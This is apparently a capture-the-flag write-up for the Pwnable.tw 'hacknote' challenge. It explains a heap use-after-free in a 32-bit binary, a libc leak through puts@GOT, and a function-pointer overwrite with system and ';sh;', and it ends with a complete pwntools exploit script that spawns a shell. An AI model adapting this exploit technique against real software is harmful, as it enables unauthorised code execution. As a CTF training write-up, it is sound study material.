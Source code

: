 ```yaml
---
title: "Pwnable.tw Hacknote"
toc_sticky: true
toc_title: ""
categories:
  - ctf
tags:
  - unix
  - pwn
---
```


This is a more difficult Use After Free challenge than the one we have previously exploited on
pwnable.kr. This challenge is called hacknote, and you can download this from either pwnable.tw
or from the HITCON-Training repository on angelboy's github.

It involves abusing a uaf twice, first to achieve a leak within libc to calculate the address of system
within libc, and next to overwrite the object's print method with system and pass ";sh;" as a parameter
to it.

I wont be going into much details on the internals of ptmalloc as much as i usually do, i will simply
just say what happens without giving much reason on WHY that happens.

```c
struct note {
    void (*putsNoteFn)();
    char *content;
}
```

this is what the note struct will look like, the first member will be 4 bytes in size, as it will hold
a pointer to an address space that will be dereferenced and executed. The reason that it is 4 bytes is
due to the fact that this is an x86 binary, which means each address space is 4 bytes large.

The second member is the content, this is a char pointer which means there is no statically set
limit for its size, but it will also be 4 bytes large. It will act as a pointer, which means that the
actual value being stored on the object/struct is only 4 bytes large as well.

Lets check the context in which this object is being used:

```c
void print_note_content(struct note *this){
	puts(this->content);
}

notelist[i]->printnote = print_note_content;

notelist[i]->content = (char *)malloc(size);
```

okay, so we have our print_note_content function, which will know where our content pointer is within
memory. This is important as i was stuck on this for a while trying to understand why a simple
ret2plt would not work.

It is still theoretically possible to pop rdi the GOT entry of puts@GOT, and pass it to puts@PLT, but
i would have to try that out later since im not actually sure. okay, so i will attempt to help you
visualize the leak first:

first we allocate 2 users, of chunk size 28. We know that the minimum chunk size for a 64 bit binary
will be 24 right? But this is a 32 bit binary, which means the useable size of a chunk returned will
be 12. We dont want this, we want 28 byte chunks, so lets pass "13" to our creation size.

Malloc will pad it with 16 bytes, so each allocation size within x86's usable chunk sizes will be
12, 28, 44, and so forth.

here is the layout of the heap after we allocate 2 users of 28 bytes in size, and named AAAA/BBBB

```
       notelist[0]                               notelist[1]
          |                                          |
          V                                          V
[metadata] [[printnote][content_pointer]] [metadata] [[printnote][content_pointer]]
                |               |                          |                |
                V               V                          V                V
         print_note_content(); char* content="AAAA";  print_note_content(); char* content="BBBB";
```

okay, let free these two to create 2 dangling pointers due to the fact that the pointers had not been
nulled out, which gives us a uaf bug. Lets then allocate a user 3:

```
  +---------------------------------------------------------------+
  |                                                               |
  |    notelist[0]                               notelist[1]  notelist[2]
  +-------|                                          |
          V                                          V
[metadata] [[printnote][content_pointer]]
                |               |
                V               V
        print_note_content(); char* content="AAAA";
```

this part is important, we can INTERACT with this object by accessing the functions through notelists
right? Now that since notelist[2] is POINTING to the notelist[0], we can DIRECTLY overwrite this
object on the heap.

This is different than interacting with the object in the sense that these are pointers remember?
When we add and print notes, it is within a controlled environment, within a controlled object. But
now, if we were to allocate notelist[2] with the same chunk that notelist[0] points to, we can directly
interact with what gets called/interacted with.

so we can use this to leak the address of any static imported symbol we want, as long as it has already
been called. Normally you would want to use something like __libc_start_main, but i just went with puts
here since that its much shorter and less of a hassle to type.

okay, so we create an object/note with a size of 8 bytes, and the contents of our print_note_content
function, and whichever GOT entry we want to leak. I am not going to be explaining how this gets
resolved, and printed out, but here is a nice video for you if you want to understand it:

https://www.youtube.com/watch?v=0exSe-PAhns

okay, we have leaked and calculated the base address of libc. How do we gain code execution?

the exact same thing, just over again. Free user 3, which is on index 2, and overwrite the content
pointer with system, and ";sh;", to ignore the junk bytes or env variables when executing a shell.

boom, here is the exploit script:

```py
#!/usr/bin/env python3
from pwn import remote,process,ELF,context,pause
from fastpwn import pack,log
from sys import argv
# glibc: 2.23
context(arch='i386',os='linux',log_level='DEBUG')
binary=ELF("./hacknote",checksec=False)
s=lambda x,r="":p.sendlineafter(str(r),str(x)) if r else p.sendline(str(x))
if len(argv)>1 and argv[1]=="-r": # adjust libc based on local or rem
    libc=ELF("./libc_32.so.6",checksec=False)
    p=remote("chall.pwnable.tw", 10102)
else:
    p=binary.process()
    libc=ELF("./libc.so.6",checksec=False)
# user 1
s("1",r="choice :")
s("13",r=" :")
s("AAAA",r=" :")

# user 2
s("1",r="choice :")
s("13",r=" :")
s("BBBB",r=" :")
pause()
# delete 0 - ptr saved
s("2",r=" :")
s("0",r=" :")

# delete 1 - ptr saved
s("2",r=" :")
s("1",r=" :")

# user 3 - ptr 0 may interact
s("1",r="choice :")
s("8",r=" :")
pause()
# overwrite old object, address and contents/parameter
p.sendline(pack.pk32(0x0804862B)+pack.pk32(binary.got['puts'])) # control ip
#p.sendline(pack.pk32(binary.plt['puts'])+pack.pk32(binary.got['puts'])) # control ip, ret2plt
#pause()
s("3",r="choice :")
s("0",r=" :")

p.recvuntil("Index :")
# will print all contents of note, we only want first 4 bytes; leaked libc address
base = int.from_bytes(p.recv(4),"little")-libc.symbols['puts']
context.log_level='warning'
log.log("Leaked base address of libc: %s"%hex(base))
system=libc.symbols['system']+base
log.log("Leaked address of system: %s"%hex(system))
# we do not need to leak /bin/sh, we have ability to write memory
pause()
# free user 3(index 2)
s("2",r=" :")
s("2",r=" :")
# overwrite again with system with parameter ;sh;, to ignore junk
s("1",r=" :")
s("8",r=" :")
p.sendline(pack.pk32(system) + b";sh;")

s("3",r=" :")
s("0",r=" :")
p.interactive()
```
